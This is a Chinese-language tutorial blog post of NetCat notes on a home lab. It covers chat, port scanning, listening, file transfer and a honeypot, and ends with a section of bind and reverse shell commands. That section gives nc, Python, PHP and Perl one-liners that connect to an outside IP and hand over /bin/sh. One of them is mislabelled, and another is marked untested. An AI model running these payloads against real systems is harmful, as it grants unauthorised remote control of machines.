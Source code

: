 ```yaml
---
layout: post
title: "NetCat Tools Notes"
subtitle: "NetCat Tools Notes"
date: 2019-06-08
author: ppbibo
category: Notes
finished: true
---
```

[TOC]

## NetCat 使用笔记



### Mac ip ：

​			192.168.10.52

### 虚拟机(Windows 7 ) ip : 

​			192.168.10.53



### 0x1 对讲机

1. 设置Mac机器为服务端开启监听模式，执行下面命令

```bash
$ nc -lv 9999
```

参数解析：

​	-l  使用监听模式，管控传入的资料；

​	-v  显示指令执行过程；



2. windows 作为客户端连接 Mac 机器，执行以下命令

```bash
>NC.EXE -nvv 192.168.10.52 9999
```

参数解析：

​	-n  直接使用IP地址，而不通过域名服务器；

​	-v  显示指令执行过程；

![netcat 对讲机](/static/img/netcat 对讲机.png)



### 0x2 端口扫描

1. 查看 Windows 机器开启的端口，执行下面命令

```bash
>netstat -an | more
```



2. mac机器对windwos指定端口进行扫描

```bash
$ nc -v 192.168.10.53 3389
```

![端口扫描](/static/img/端口扫描.png)



3. 扫描windows机器 端口为130-445的网段 , 执行命令

```bash
$ nc -v -z -w 3 192.168.10.53 130-445
```

参数解析：

​	-z  将输入输出关掉，在扫描时使用；

​	-w  设置超时时间为3秒；



![端口段扫描](/static/img/端口段扫描.png)



4. 扫描指定主机的某个UDP端口段，并且返回端口信息

```bash
$ nc -v -z -u 192.168.10.53 20-1024
```

参数解析：

​	-u  使用UDP传输协议；



### 0x3 端口监听

执行命令

```bash
$ nc -lv 81
```

浏览器访问

```bash
http://192.168.10.52:81/
```

*注：先设置监听（不能出现端口冲突），之后如果有外来访问则输出该详细信息到命令行*

![监听本地端口](/static/img/监听本地端口.png)



### 0x4 文件传输

1. 在本机上执行命令

```bash
$ nc -l  9999 < log.txt 
```

2. 在接收文件的机器上执行命令

```bash
nc 192.168.10.52 9999 > log.txt
```



### 0x5 蜜罐

作为蜜罐使用

```bash
>nc -L -p  Port > log.txt
```

参数解析：

​	-L  参数可以不停的监听某一个端口，直到Ctrl+C为止

​	*注意：这一个命令参数“-L”在Windows中有，现在的Linux中是没有这个选项的*



### 0x6 获取shell

获取shell分为正向shell和反向shell

**正向shell ：客户端连接服务器端，想要获取服务器端的shell**

1. 服务器端执行命令

```bash
$ nc -lv 5555 -e /bin/sh
```

2. 客户端执行命令

```bash
$ nc 10x.2xx.150.37 5555
```



**反向shell：客户端连接服务器端，服务器端想要获取客户端的shell**

3. 服务器执行命令

```bash
$ nc -lv 5555
```

4. 客户端执行命令

```bash
$ nc 10x.2xx.150.37 5555 -e /bin/sh
```



**当目标主机没有nc的时候利用python反弹shell**

5. 本地执行命令

```bash
$ nc -lv 5555
```

6. 在目标机器执行命令

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10x.2xx.150.37",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```



**利用python反弹shell-Payload**

```bash
php -r '$sock=fsockopen("10x.2xx.150.37",5555);exec("/bin/sh -i <&3 >&3 2>&3");'
```

*注：PHP在一般情况下事禁用exec()函数的*





**利用perl反弹shell-Payload**

```bash
perl -e 'use Socket;$i="10x.2xx.150.37";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

*注：未进行测试*